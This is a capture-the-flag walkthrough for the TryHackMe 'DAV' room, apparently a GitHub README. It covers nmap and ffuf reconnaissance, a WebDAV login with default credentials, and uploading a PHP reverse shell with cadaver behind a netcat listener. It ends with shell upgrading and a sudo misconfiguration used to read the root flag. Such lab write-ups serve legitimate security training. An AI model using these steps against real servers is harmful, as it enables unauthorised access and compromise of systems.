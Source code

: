 # DAV THM CTF Walkthrough

Solving DAV TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/bsidesgtdav)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/2427edbb-563b-4cd8-99c2-6d64c95ea690)

Here we see only port 80 (http) is open, running Apache httpd 2.4.18 on Ubuntu.
![Apache Default Page](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/197f3ad7-4b9f-44d8-b3df-ba2b60c06a5b)

Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet.
![FFUF](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/adeb4fee-4732-4c6d-9b8d-8aa2531c0f08)

## Directory Brute-Forcing

Using `ffuf` (gobuster alternative):
```sh
ffuf -u http://10.10.210.35/FUZZ -e .php,.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
```

We found `/webdav`, which is interesting. Using BurpSuite or Hydra is not required for this login. A quick Google search reveals that WebDAV stands for "Web-based Distributed Authoring and Versioning," which means it can be exploited. Default credentials for WebDAV in this CTF Room are used: `wampp:xampp`.

Successful login. <br>
![WebDAV Login](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/c0e67887-cccd-4db2-a614-bf116ff0d1c4)

We get `password.dav` which contains a hash that I couldn't crack. <br>
![Password.dav](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/1106674c-9581-4ecc-ba54-f97f1bd0805e)

## Exploiting WebDAV

Instead, I searched for other vulnerabilities and found that we can use `cadaver` to upload a reverse shell PHP file.

```sh
cadaver http://10.10.210.35:80/webdav/
put reverseShell.php
```
![Upload with Cadaver](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/eb3a34ab-6bcd-41e6-88f7-eef1c5f7a24d)

Get the reverse shell PHP from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just modify your attacker IP and port.

Open netcat listener. <br>
![Netcat Listener](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/155efbc5-7496-4ec4-9940-6cfc44639e27)

Go back to [WebDAV](http://10.10.210.35/webdav/) and run the PHP file we just uploaded. <br>
![Run PHP File](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/291de06a-c700-4747-ae26-240d5e1fe4ad)

We got the reverse shell.

## Converting to TTY Shell

(Optional but recommended)
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![TTY Shell](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/4753b584-ad5d-416c-8a60-9627d8b51f34)

## Finding Flags

To find `user.txt`, use:
```sh
find / -type f -name user.txt 2>>/dev/null
```
![Find user.txt](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/cf6830eb-6442-4710-8ced-a47e1b0fd85e)

Then use `cat` to read the flag.

To check for root permissions:
```sh
sudo -l
```
![sudo -l](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/3c1cea4f-e748-4dc7-9e08-b9204e777cda)

We can run the `cat` command as sudo:
```sh
sudo cat /root/root.txt
```
![Root Flag](https://github.com/MajesticFires3010/DAV-THM-CTF/assets/96762636/dcb6d7bb-efba-41e8-b8a3-9cb1fc3c8239)
<br>

## Congrats!
## We have solved DAV THM CTF!
## Follow My GitHub for more.

